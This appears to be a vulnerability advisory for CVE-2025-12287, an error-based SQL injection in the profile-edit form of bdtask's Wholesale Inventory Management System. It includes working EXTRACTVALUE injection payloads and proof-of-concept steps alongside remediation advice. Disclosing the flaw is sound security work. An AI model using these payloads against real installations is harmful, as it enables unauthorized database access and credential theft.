 # [Error-Based SQL Injection] in [Wholesale Inventory Management System]

---

### 👨‍💻 **BUG Author:**

### 4m3rr0r
### CVE-2025-12287

---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://www.bdtask.com](https://www.bdtask.com)
* **Software Link:** [https://codecanyon.net/item/wholesale-inventory-control-and-inventory-management-system/20291791](https://codecanyon.net/item/wholesale-inventory-control-and-inventory-management-system/20291791)
* **Demo URL:** `https://wholesaledemo.bdtask-demo.com/`
* **Affected Version:** Latest version as of 2025-10-13
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Error-Based SQL Injection
* **Affected URL:** `/Admin_dashboard/edit_profile`
* **Vulnerable Parameter:** `first_name`, `last_name` (in the POST request)
* **Vulnerable Component:** The user profile update functionality.

---

### 🧨 **Vulnerability Type**

* **SQL Injection**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.8 (Critical)

---

### 🧬 **Root Cause**

The application constructs an SQL `UPDATE` query by directly concatenating unvalidated and unsanitized user input from the "First name" and "Last name" fields. An attacker can inject a single quote (`'`) to break out of the SQL statement and append malicious commands. The application is configured to display database errors, allowing the attacker to exfiltrate data through error messages generated by functions like `EXTRACTVALUE`.

---

### ⚠️ **Impact**

* **Full Database Compromise:** An attacker can read, modify, or delete any data in the database.
* **Sensitive Data Exposure:** This includes administrator credentials, user information, inventory data, and sales records.
* **Authentication Bypass:** The vulnerability could potentially be used to extract user password hashes, leading to account takeovers.
* **Potential for RCE:** In some database configurations, SQL injection can be escalated to achieve Remote Code Execution on the server.

---

### 📋 **Description**

1.  **Vulnerability Details:**
    * The `edit_profile` page allows authenticated admins to update their personal information.
    * The `first_name` and `last_name` parameters are directly included in an SQL query without the use of prepared statements.

2.  **Attack Vectors:**
    * An attacker can use error-based payloads to force the MySQL database to reveal information within its error messages.
    * The `EXTRACTVALUE` function is used to trigger an invalid XPath syntax error, which includes the output of a nested SQL function (e.g., `VERSION()`).

3.  **Attack Payload Examples:**
    * To get the database version:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, VERSION())) -- -
        ```
    * To get the database user:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, USER())) -- -
        ```
    * To get the database name:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, DATABASE())) -- -
        ```

---

### 🔬 **Proof of Concept (PoC)**


[![Watch the video](https://img.youtube.com/vi/mYOFMDAEaYo/0.jpg)](https://youtu.be/mYOFMDAEaYo)


1.  Log in to the administrator panel.
2.  Navigate to the **"Edit Profile"** page (`/Admin_dashboard/edit_profile`).
3.  In the **"Last name"** field, enter the following payload:
    `' AND EXTRACTVALUE(1, CONCAT(0x3a, VERSION())) -- -`
4.  Submit the form.
5.  The application will fail and display a database error message on the screen, such as:
    `XPATH syntax error: ':10.11.13-MariaDB'`
6.  This error message confirms the vulnerability and reveals the database version. The same technique can be used with `USER()` and `DATABASE()` to extract more information.

---

### 🛡 **Suggested Remediation**

* **Use Parameterized Queries (Prepared Statements):** This is the most effective way to prevent SQL injection. The database query and the user data should be sent separately.
* **Validate and Sanitize Input:** As a secondary defense, all user input should be validated against a strict whitelist of expected characters and formats.


### 🔐 **Security Recommendations**

* Disable detailed database error messages in the production environment.
* Apply the Principle of Least Privilege to the database user, ensuring it only has the minimum permissions necessary.
* Conduct regular security code reviews and use static analysis (SAST) tools to find vulnerabilities.

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---
